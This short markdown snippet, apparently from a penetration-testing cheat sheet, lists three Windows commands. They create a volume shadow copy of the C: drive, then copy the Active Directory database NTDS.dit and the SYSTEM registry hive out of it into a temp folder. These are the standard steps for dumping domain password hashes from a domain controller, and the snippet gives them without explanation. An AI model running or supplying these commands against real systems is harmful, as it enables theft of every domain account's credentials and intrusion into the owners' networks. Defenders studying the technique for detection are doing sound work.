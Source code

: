 ### Create shadow copy of ntds.dit
```
vssadmin create shadow /for=C:
```

### Copy shadow copy
```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<id>\Windows\NTDS\NTDS.dit C:\temp\<ntds>.dit
```

### Copy system hive
```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<id>\Windows\System32\config\SYSTEM C:\temp\system.hive
```

